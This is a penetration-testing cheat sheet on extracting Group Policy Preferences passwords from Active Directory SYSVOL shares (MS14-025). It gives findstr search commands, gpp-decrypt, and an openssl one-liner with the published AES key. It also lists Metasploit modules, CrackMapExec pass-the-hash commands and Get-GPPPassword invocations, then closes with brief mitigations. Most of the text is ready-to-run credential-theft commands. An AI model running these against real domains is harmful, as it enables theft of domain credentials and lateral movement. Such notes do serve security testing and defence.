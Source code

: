 # SYSVOL and GPP MS14-025

### Search for the .xml file

 - use scanner/smb/smb_enum_gpp (Metasploit)

 - findstr /S /I cpassword \\FQDN\sysvol\FQDN\policies\*.xml

## DNS Configuration

#### 1) 

    $dnsip= "DC_IP"

#### 2) 

    $index = Get-NetAdapter -Name 'ETHERNET' | Select-Object -ExpandProperty 'ifIndex' Set-DnsClientServerAddress -InterfaceIndex $index -serverAddresses $dnsip

#### 3) 

    nslookup DOMAIN

#### 4) 

    dir \\\\DOMAIN\SYSVOL\

# Passwords in SYSVOL & Group Policy Preferences (GPP)

### Find password in SYSVOL (MS14-025). SYSVOL is the domain-wide share in Active Directory to which all authenticated users have read access. All domain Group Policies are stored here: \\DOMAIN\SYSVOL\DOMAIN\Policies\ .

### Group Policy Preferences (GPP) allowed admins to create policies using embedded credentials

### These credentials were encrypted and placed in a "cPassword"

### They key was accidentally released 

### Patched in MS14-025, but it doesn't prevent previous uses

### GPP is an .xml file stored in SYSVOL directory

#### 1) findstr /S /I cpassword \\<FQDN>\sysvol\<FQDN>\policies\*.xml (Search for .xml file)

#### 2) gpp-decrypt CPASSWORD

## Alternate Method

### Decrypt a Group Policy Password found in SYSVOL (by 0x00C651E0), using the 32-byte AES key provided by Microsoft in the MSDN - 2.2.1.1.4 Password Encryption

#### 1) echo 'password_in_base64' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b

## Automate the SYSCOL and passwords search

## 1) Metasploit modules to enumerate shares and credentials

 - scanner/smb/smb_enumshares

 - post/windows/gather/enum_shares

 - post/windows/gather/credentials/gpp

## 2) CrackMapExec

 - cme smb 10.10.10.10 -u Administrator -H 89[...]9d -M gpp_autologin

 - cme smb 10.10.10.10 -u Administrator -H 89[...]9d -M gpp_password

## 3) Get-GPPPassword

### with a NULL session

 - Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'

### with cleartext credentials

 - Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

### pass-the-hash

 - Get-GPPPassword.py -hashes 'LMhash':'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_

## MITIGATIONS

 - Install KB2962486 on every computer used to manage GPOs which prevents new credentials from being placed in Group Policy Preferences.

 - Delete existing GPP xml files in SYSVOL containing passwords.

 - Don’t put passwords in files that are accessible by all authenticated users.

